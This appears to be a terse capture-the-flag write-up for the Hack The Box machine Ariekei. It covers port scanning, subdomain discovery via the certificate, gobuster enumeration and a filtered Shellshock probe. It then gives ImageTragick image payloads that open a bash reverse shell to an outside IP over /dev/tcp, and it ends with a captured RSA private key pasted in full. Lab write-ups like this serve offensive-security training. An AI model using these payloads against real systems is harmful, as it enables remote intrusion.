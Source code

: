 ### Ariekei

#### keyword 

docker, gobuster -f 

#### Information

```html
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a7:5b:ae:65:93:ce:fb:dd:f9:6a:7f:de:50:67:f6:ec (RSA)
|   256 64:2c:a6:5e:96:ca:fb:10:05:82:36:ba:f0:c9:92:ef (ECDSA)
|_  256 51:9f:87:64:be:99:35:2a:80:a6:a2:25:eb:e0:95:9f (ED25519)
443/tcp  open  ssl/https nginx/1.10.2
_http-server-header: nginx/1.10.2
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
1022/tcp open  ssh       OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 98:33:f6:b6:4c:18:f5:80:66:85:47:0c:f6:b7:90:7e (DSA)
|   2048 78:40:0d:1c:79:a1:45:d4:28:75:35:36:ed:42:4f:2d (RSA)
|   256 45:a6:71:96:df:62:b5:54:66:6b:91:7b:74:6a:db:b7 (ECDSA)
|_  256 ad:8d:4d:69:8e:7a:fd:d8:cd:6e:c1:4f:6f:81:b4:1f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### is Docker ???

OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 -> trusty-ubuntu

penSSH 7.2p2 Ubuntu 4ubuntu2.2    ->  xenial-ubuntu



### 443 port

the url https://10.10.10.65/  have some interersting in the ceritficate! 

```json
Certificate Subject Alt Name{

​	Not Critical
​	DNS Name: calvin.ariekei.htb
​	DNS Name: beehive.ariekei.htb

}
```

let us put into hosts [/etc/hosts]()

```dart
10.10.10.65 beehive.ariekei.htb calvin.ariekei.htb
```



### gobuster paramter "-f"  !!

gobuster make the /cgi-bin to /cgi-bin/  by append parameter "-f". if not , the website will make the bad code 404.

```python
 curl -k --ssl https://10.10.10.65/cgi-bin
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /cgi-bin was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 10.10.10.65 Port 80</address>
</body></html>
root@ens:~/htb/Ariekei# curl -k --ssl https://10.10.10.65/cgi-bin/
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /cgi-bin/
on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 10.10.10.65 Port 80</address>
</body></html>

```

curl -k --ssl https://10.10.10.65/cgi-bin

not same with

curl -k --ssl https://10.10.10.65/cgi-bin/

```
     gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://beehive.ariekei.htb  -f

=====================================================

# Gobuster v2.0.1              OJ Reeves (@TheColonial)

[+] Mode         : dir
[+] Url/Domain   : https://beehive.ariekei.htb/
[+] Threads      : 10
/blog/ (Status: 200)
/cgi-bin/ (Status: 403)
/icons/ (Status: 403)

```

####  cgi-bin 

```
gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://beehive.ariekei.htb/cgi-bin/
/stats (Status: 200)
```

#### shellshock rabbit hole 

get  /cgi-bin/stats HTTP/1.1

<pre>
Tue Mar 19 14:34:37 UTC 2019
14:34:37 up 1 day, 15:53, 0 users, load average: 0.00, 0.02, 0.00
GNU bash, version 4.2.37(1)-release (x86_64-pc-linux-gnu) Copyright (C) 2011 Free Software Foundation, Inc. License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html> This is free software; you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.

https://dedetoknotes.blogspot.com/2015/07/shellshock-vulnerability-on-bash-shell.html

Shellshock Vulnerability on Bash Shell

This is how you test your bash shell whether its vulnerable or not for 'shellsock' bug.
Run this on your linux shell (you don't need super user account for this):
 $ env x='() { :;}; echo vulnerable' bash -c "echo this is a test" , but **it fully filters** 

```shell
GET /cgi-bin/stats HTTP/1.1
Host: beehive.ariekei.htb
User-Agent: (){:;};echo;echo

SERVER_SIGNATURE=<address>Apache/2.2.22 (Debian) Server at beehive.ariekei.htb Port 80</address>

HTTP_USER_AGENT=(){:;};echo;echo
HTTP_X_FORWARDED_FOR=10.10.14.27
SERVER_PORT=80
HTTP_HOST=beehive.ariekei.htb
HTTP_X_REAL_IP=10.10.14.27
DOCUMENT_ROOT=/home/spanishdancer/content
SCRIPT_FILENAME=/usr/lib/cgi-bin/stats
REQUEST_URI=/cgi-bin/stats
SCRIPT_NAME=/cgi-bin/stats
HTTP_CONNECTION=close
REMOTE_PORT=55502
```



#### Enum Calvin

```
gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://calvin.ariekei.htb
/upload (Status: 200)
```

#### imagemagick  Tragick  

https://blog.sucuri.net/2016/05/analyzing-imagetragick-exploits-in-the-wild.html

```
push graphic-context
viewbox 0 0 640 480 fill 'url(https://\x22|setsid /bin/bash -i >/dev/tcp/106.186.30.7/443 0<&1 2>&1")'
```

https://github.com/dorkerdevil/ImageTragick_exploit, A tool to exploit imagetragick vulnerability to gain remote code execution.

```shell
#### payload 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >& /dev/tcp/10.10.14.27/443 0<&1 2>&1")'
pop graphic-context

```

-----BEGIN RSA PRIVATE KEY-----MIIEpAIBAAKCAQEA8M2fLV0chunp+lPHeK/6C/36cdgMPldtrvHSYzZ0j/Y5cvkR
SZPGfmijBUyGCfqK48jMYnqjLcmHVTlA7wmpzJwoZj2yFqsOlM3Vfp5wa1kxP+JH
g0kZ/Io7NdLTz4gQww6akH9tV4oslHw9EZAJd4CZOocO8B31hIpUdSln5WzQJWrv
pXzPWDhS22KxZqSp2Yr6pA7bhD35yFQ7q0tgogwvqEvn5z9pxnCDHnPeYoj6SeDI
T723ZW/lAsVehaDbXoU/XImbpA9MSF2pMAMBpT5RUG80KqhIxIeZbb52iRukMz3y
5welIrPJLtDTQ4ra3gZtgWvbCfDaV4eOiIIYYQIDAQABAoIBAQDOIAUojLKVnfeG
K17tJR3SVBakir54QtiFz0Q7XurKLIeiricpJ1Da9fDN4WI/enKXZ1Pk3Ht//ylU
P00hENGDbwx58EfYdZZmtAcTesZabZ/lwmlarSGMdjsW6KAc3qkSfxa5qApNy947
QFn6BaTE4ZTIb8HOsqZuTQbcv5PK4v/x/Pe1JTucb6fYF9iT3A/pnXnLrN9AIFBK
/GB02ay3XDkTPh4HfgROHbkwwverzC78RzjMe8cG831TwWa+924u+Pug53GUOwet
A+nCVJSxHvgHuNA2b2oMfsuyS0i7NfPKumjO5hhfLex+SQKOzRXzRXX48LP8hDB0
G75JF/W9AoGBAPvGa7H0Wen3Yg8n1yehy6W8Iqek0KHR17EE4Tk4sjuDL0jiEkWl
WlzQp5Cg6YBtQoICugPSPjjRpu3GK6hI/sG9SGzGJVkgS4QIGUN1g3cP0AIFK08c
41xJOikN+oNInsb2RJ3zSHCsQgERHgMdfGZVQNYcKQz0lO+8U0lEEe1zAoGBAPTY
EWZlh+OMxGlLo4Um89cuUUutPbEaDuvcd5R85H9Ihag6DS5N3mhEjZE/XS27y7wS
3Q4ilYh8Twk6m4REMHeYwz4n0QZ8NH9n6TVxReDsgrBj2nMPVOQaji2xn4L7WYaJ
KImQ+AR9ykV2IlZ42LoyaIntX7IsRC2O/LbkJm3bAoGAFvFZ1vmBSAS29tKWlJH1
0MB4F/a43EYW9ZaQP3qfIzUtFeMj7xzGQzbwTgmbvYw3R0mgUcDS0rKoF3q7d7ZP
ILBy7RaRSLHcr8ddJfyLYkoallSKQcdMIJi7qAoSDeyMK209i3cj3sCTsy0wIvCI
6XpTUi92vit7du0eWcrOJ2kCgYAjrLvUTKThHeicYv3/b66FwuTrfuGHRYG5EhWG
WDA+74Ux/ste3M+0J5DtAeuEt2E3FRSKc7WP/nTRpm10dy8MrgB8tPZ62GwZyD0t
oUSKQkvEgbgZnblDxy7CL6hLQG5J8QAsEyhgFyf6uPzF1rPVZXTf6+tOna6NaNEf
oNyMkwKBgQCCCVKHRFC7na/8qMwuHEb6uRfsQV81pna5mLi55PV6RHxnoZ2wOdTA
jFhkdTVmzkkP62Yxd+DZ8RN+jOEs+cigpPjlhjeFJ+iN7mCZoA7UW/NeAR1GbjOe
BJBoz1pQBtLPQSGPaw+x7rHwgRMAj/LMLTI46fMFAWXB2AzaHHDNPg==
-----END RSA PRIVATE KEY-----
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDwzZ8tXRyG6en6U8d4r/oL/fpx2Aw+V22u8dJjNnSP9jly+RFJk8Z+aKMFTIYJ+orjyMxieqMtyYdVOUDvCanMnChmPbIWqw6UzdV+nnBrWTE/4keDSRn8ijs10tPPiBDDDpqQf21XiiyUfD0RkAl3gJk6hw7wHfWEilR1KWflbNAlau+lfM9YOFLbYrFmpKnZivqkDtuEPfnIVDurS2CiDC+oS+fnP2nGcIMec95iiPpJ4MhPvbdlb+UCxV6FoNtehT9ciZukD0xIXakwAwGlPlFQbzQqqEjEh5ltvnaJG6QzPfLnB6Uis8ku0NNDitreBm2Ba9sJ8NpXh46Ighhh root@arieka